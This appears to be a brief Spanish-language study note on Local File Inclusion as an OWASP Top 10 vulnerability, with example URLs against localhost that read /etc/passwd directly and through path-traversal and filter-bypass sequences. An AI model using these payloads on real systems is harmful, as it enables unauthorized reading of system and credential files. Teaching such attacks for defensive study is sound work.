 # LFI

Categoría: OWAS TOP 10

Local File Inclusión o LFI es una vulnerabilidad en el que se buscar ingresar rutas en la url a partir de un parametro 

```bash
http://localhost/index.php?parametro=/etc/passwd
```

También se puede aplicar un Path Traversal 

```bash
http://localhost/index.php?parametro=../../../../../../../../../../../etc/passwd
http://localhost/index.php?parametro=..//..//..//..//..//..//..//..//..//..//..//etc/passwd
http://localhost/index.php?parametro=....//..../....//....//....//....//....//....//....//....//....//etc/passwd
```